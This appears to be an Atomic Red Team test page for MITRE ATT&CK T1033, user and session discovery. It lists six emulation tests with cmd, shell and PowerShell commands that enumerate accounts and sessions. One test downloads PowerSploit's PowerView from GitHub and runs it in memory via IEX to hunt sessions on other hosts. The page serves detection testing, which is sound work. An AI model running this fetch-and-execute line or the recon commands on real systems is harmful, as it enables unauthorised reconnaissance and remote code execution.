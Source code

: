 # T1033 - System Owner/User Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1033)
<blockquote>Adversaries may attempt to identify the primary user, currently logged in user, set of users that commonly uses a system, or whether a user is actively using the system. They may do this, for example, by retrieving account usernames or by using [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). The information may be collected in a number of different ways using other Discovery techniques, because user and username details are prevalent throughout a system and include running process ownership, file/directory ownership, session information, and system logs. Adversaries may use the information from [System Owner/User Discovery](https://attack.mitre.org/techniques/T1033) during automated discovery to shape follow-on behaviors, including whether or not the adversary fully infects the target and/or attempts specific actions.

Various utilities and commands may acquire this information, including <code>whoami</code>. In macOS and Linux, the currently logged in user can be identified with <code>w</code> and <code>who</code>. On macOS the <code>dscl . list /Users | grep -v '_'</code> command can also be used to enumerate user accounts. Environment variables, such as <code>%USERNAME%</code> and <code>$USER</code>, may also be used to access this information.

On network devices, [Network Device CLI](https://attack.mitre.org/techniques/T1059/008) commands such as `show users` and `show ssh` can be used to display users currently logged into the device.(Citation: show_ssh_users_cmd_cisco)(Citation: US-CERT TA18-106A Network Infrastructure Devices 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - System Owner/User Discovery](#atomic-test-1---system-owneruser-discovery)

- [Atomic Test #2 - System Owner/User Discovery](#atomic-test-2---system-owneruser-discovery)

- [Atomic Test #3 - Find computers where user has session - Stealth mode (PowerView)](#atomic-test-3---find-computers-where-user-has-session---stealth-mode-powerview)

- [Atomic Test #4 - User Discovery With Env Vars PowerShell Script](#atomic-test-4---user-discovery-with-env-vars-powershell-script)

- [Atomic Test #5 - GetCurrent User with PowerShell Script](#atomic-test-5---getcurrent-user-with-powershell-script)

- [Atomic Test #6 - System Discovery - SocGholish whoami](#atomic-test-6---system-discovery---socgholish-whoami)


<br/>

## Atomic Test #1 - System Owner/User Discovery
Identify System owner or users on an endpoint.

Upon successful execution, cmd.exe will spawn multiple commands against a target host to identify usernames. Output will be via stdout. 
Additionally, two files will be written to disk - computers.txt and usernames.txt.

**Supported Platforms:** Windows


**auto_generated_guid:** 4c4959bf-addf-4b4a-be86-8d09cc1857aa





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| computer_name | Name of remote computer | string | localhost|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmd.exe /C whoami
wmic useraccount get /ALL
quser /SERVER:"#{computer_name}"
quser
qwinsta.exe /server:#{computer_name}
qwinsta.exe
for /F "tokens=1,2" %i in ('qwinsta /server:#{computer_name} ^| findstr "Active Disc"') do @echo %i | find /v "#" | find /v "console" || echo %j > computers.txt
@FOR /F %n in (computers.txt) DO @FOR /F "tokens=1,2" %i in ('qwinsta /server:%n ^| findstr "Active Disc"') do @echo %i | find /v "#" | find /v "console" || echo %j > usernames.txt
```






<br/>
<br/>

## Atomic Test #2 - System Owner/User Discovery
Identify System owner or users on an endpoint

Upon successful execution, sh will stdout list of usernames.

**Supported Platforms:** Freebsd, Linux, macOS


**auto_generated_guid:** 2a9b677d-a230-44f4-ad86-782df1ef108c






#### Attack Commands: Run with `sh`! 


```sh
users
w
who
```






<br/>
<br/>

## Atomic Test #3 - Find computers where user has session - Stealth mode (PowerView)
Find existing user session on other computers. Upon execution, information about any sessions discovered will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** 29857f27-a36f-4f7e-8084-4557cd6207ca






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Invoke-UserHunter -Stealth -Verbose
```






<br/>
<br/>

## Atomic Test #4 - User Discovery With Env Vars PowerShell Script
Use the PowerShell environment variables to identify the current logged user.

**Supported Platforms:** Windows


**auto_generated_guid:** dcb6cdee-1fb0-4087-8bf8-88cfd136ba51






#### Attack Commands: Run with `powershell`! 


```powershell
[System.Environment]::UserName | Out-File -FilePath .\CurrentactiveUser.txt 
$env:UserName | Out-File -FilePath .\CurrentactiveUser.txt -Append
```

#### Cleanup Commands:
```powershell
Remove-Item -Path .\CurrentactiveUser.txt -Force
```





<br/>
<br/>

## Atomic Test #5 - GetCurrent User with PowerShell Script
Use the PowerShell "GetCurrent" method of the WindowsIdentity .NET class to identify the logged user.

**Supported Platforms:** Windows


**auto_generated_guid:** 1392bd0f-5d5a-429e-81d9-eb9d4d4d5b3b






#### Attack Commands: Run with `powershell`! 


```powershell
[System.Security.Principal.WindowsIdentity]::GetCurrent() | Out-File -FilePath .\CurrentUserObject.txt
```

#### Cleanup Commands:
```powershell
Remove-Item -Path .\CurrentUserObject.txt -Force
```





<br/>
<br/>

## Atomic Test #6 - System Discovery - SocGholish whoami
SocGholish performs whoami discovery commands and outputs the results to a tmp file. 
The test will generate a filename similar to the random one generated during execution and write the file to AppData\Temp.

Reference: https://redcanary.com/threat-detection-report/threats/socgholish/

**Supported Platforms:** Windows


**auto_generated_guid:** 3d257a03-eb80-41c5-b744-bb37ac7f65c7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_path | Location of output file | string | $env:temp|


#### Attack Commands: Run with `powershell`! 


```powershell
$TokenSet = @{
  U = [Char[]]'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
  N = [Char[]]'0123456789'
}
$Upper = Get-Random -Count 5 -InputObject $TokenSet.U
$Number = Get-Random -Count 5 -InputObject $TokenSet.N
$StringSet = $Upper + $Number
$rad = (Get-Random -Count 5 -InputObject $StringSet) -join ''
$file = "rad" + $rad + ".tmp"

whoami.exe /all >> #{output_path}\$file
```

#### Cleanup Commands:
```powershell
Remove-Item -Path #{output_path}\rad*.tmp -Force
```





<br/>
